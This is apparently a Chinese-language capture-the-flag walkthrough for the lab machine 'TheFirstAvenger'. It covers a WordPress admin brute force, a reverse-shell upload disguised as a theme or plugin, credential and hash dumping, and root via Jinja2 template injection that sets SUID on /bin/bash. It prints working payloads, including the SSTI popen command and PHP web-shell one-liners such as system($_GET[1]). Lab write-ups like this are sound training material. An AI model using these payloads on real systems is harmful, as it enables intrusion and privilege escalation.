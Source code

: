 # TheFirstAvenger

2025.02.26 https://thehackerslabs.com/thefirstavenger/

[video](https://www.bilibili.com/video/BV1LCP7eGEFd/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 首页无内容，扫描出 http://192.168.5.39/wp1/ 是个 wordpress，先使用 wpscan 进行常规扫描，只发现了一个插件 stop-user-enumeration 1.6.3 这个插件阻止了 wpscan 进行枚举。

将域名 thefirstavenger.thl 添加到 hosts 文件中，发现页面中有用户名 admin 尝试爆破其登陆密码，找到 admin 的登陆密码：

```
Username: admin, Password: spongebob
```

登陆 wp 后台，在 Theme 编辑的地方上传一个 zip 文件包，里面包含 index.php 和 style.css 文件，其中 style.css 的文件开始内容要类似这样的格式，同时创建的 zip 压缩包的名字与 Theme Name 一样：

```
/*
Theme Name: demo
*/

zip demo.zip index.php style.css
```

然后 index.php 就是反弹 shell 的 php 脚本，在 Theme install 后，就可以访问这个页面得到反弹的 shell：

```
curl http://thefirstavenger.thl/wp1/wp-content/themes/demo/index.php
```

这里如果上传的是一个插件，需要将 php 反弹文件的名称改成 zip 的的名称，同时与下面的 Plugin Name 名字一样，两个名称要保持一致，并且在 php 的开始加入下面这样的注释模板,否则插件识别不了，安装时报错：

```
/*
Plugin Name: test
*/

zip test.zip test.php
```

```
curl http://thefirstavenger.thl/wp1/wp-content/plugins/test/test.php
```

得到反弹后，先查看 wp 的数据库配置文件：

```
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1$ cat wp-config.php

define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', '9pXYwXSnap`4pqpg~7TcM9bPVXY&~RM9i3nnex%r' );
define( 'DB_HOST', 'localhost' );
```

先进数据库看看有什么，发现另外一个库 top_secret 读取其内容：

```
mysql> select * from avengers;
+----+--------------+------------+----------------------------------+
| id | name         | username   | password                         |
+----+--------------+------------+----------------------------------+
|  1 | Iron Man     | ironman    | cc20f43c8c24dbc0b2539489b113277a |   -> tony123
|  2 | Thor         | thor       | 077b2e2a02ddb89d4d25dd3b37255939 |   -> thorhammer
|  3 | Hulk         | hulk       | ae2498aaff4ba7890d54ab5c91e3ea60 |   -> smash123
|  4 | Black Widow  | blackwidow | 022e549d06ec8ddecb5d510b048f131d |   -> natasha456
|  5 | Hawkeye      | hawkeye    | d74727c034739e29ad1242b643426bc3 |   -> hawkeye
|  6 | Steve Rogers | steve      | 723a44782520fcdfb57daa4eb2af4be5 |   -> thecaptain
+----+--------------+------------+----------------------------------+
```

同时发现系统上有一个用户也叫 steve ，尝试破解其哈希 723a44782520fcdfb57daa4eb2af4be5 得到明文密码: thecaptain

su 切换到 steve ，拿到 user flag:

```
steve@TheHackersLabs-Thefirstavenger:~$ cat user.txt
vbh579vExKtPF359H2TikzAWuzNhMVACYeyEsYW7
```

发现以 root 身份运行了 /opt/app/server.py 脚本，ss 发现本地监听了 127.0.0.1:7092 curl 一下看看有什么显示，发现可以提供一个 ip，然后对这个 ip 进行 ping 操作：

```
<input type="text" id="ip" name="ip" value="" required>
curl -G --data-urlencode 'ip=192.168.5.3' http://127.0.0.1:7092
```

这里应该可以执行命令，进行变形：

```
curl -G --data-urlencode 'ip=192.168.5.3;id' http://127.0.0.1:7092
```

执行报错，绕不过去，在看看有没有 SSTI：

```
curl -G --data-urlencode "ip={{7*'7'}}" http://127.0.0.1:7092
```

这时回显的数据上 form 中的 ip 字段变成了 `<input type="text" id="ip" name="ip" value="127.0.0.7777777" required>` 证明存在 SSTI，可能是 Jinja2，进行利用：

```
curl -G --data-urlencode "ip={{ self.__init__.__globals__.__builtins__.__import__('os').popen('chmod +xs /bin/bash').read() }}" http://127.0.0.1:7092
```

这时直接将 /bin/bash 变成了 suid 程序。

```
steve@TheHackersLabs-Thefirstavenger:/tmp$ /bin/bash -p
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
LAZWSPcMckPMzNPtRrVHsDLjw754tT77t9MVuvda
```

最后在看一下 server.py 的实现源码，为什么命令执行那里不能注入，使用了 flask：

```
if not ip_address:
        return render_template_string(HTML_FORM)
    try:
        result = subprocess.check_output(['/usr/bin/ping', '-c', '1', ip_address], stderr=subprocess.STDOUT, text=True)
    except subprocess.CalledProcessError as e:
        result = f"Error al ejecutar: {e.output}"
    except Exception as e:
        result = f"Error inesperado: {str(e)}"
    return render_template_string(HTML_FORM, result=result, ip_address=ip_address)
```

subprocess.check_output 后面接的是参数，会当成一个整体，所以不能用;号分割。<?php system('whoami');?>

也可以用这个网站 https://cheatsheet.hackmanit.de/template-injection-table/ 按顺序输入各种 payload，然后根据返回结果，就可以进一步判断使用的是那种模板引擎。推荐测试：

```
{{1in[1]}}

<?php system($_GET[1]); ?>
```
